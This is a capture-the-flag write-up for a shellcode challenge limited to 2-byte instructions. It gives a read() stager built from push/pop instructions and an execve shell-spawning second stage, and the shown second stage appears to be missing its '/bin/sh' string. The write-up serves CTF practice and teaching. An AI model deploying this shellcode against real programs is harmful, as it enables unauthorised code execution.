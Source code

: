 ## Challange
Get the flag by taking control of the shellcode, but each istruction could be of max 2 bytes.
## Solution
The binary uses capstone to execute an arbitrary assembly input but it should be of max 2 bytes. By using gdb and breaking before the input code is executed we can see the state of registers.
```
rax = 0
rsp = something on stack
```
Since `rsp` is pointing to the stack, which is `RWX`, we can simply program a `read` in this way:

```assembly
;           rax     rdi                 rsi         rdx    
; 	read	0x00	unsigned int fd	    char *buf	size_t count
push rax 
pop rdi ; fd = 0 stdin

push rax
pop rdx 
mov dl, 0xff ; count = 0xff

push rsp
pop rsi ; rsi points to stack

syscall

jmp rsi ; jmp to read code
```

This will allow us to inject arbitrary code (shellcode) and with `jmp` execute it. The shellcode is:
```assembly
jmp binsh
back:
xor rax, rax
mov al, 0x3b
pop rdi
xor rsi, rsi
xor rdx,rdx
syscall

binsh:
call back
nop
nop
```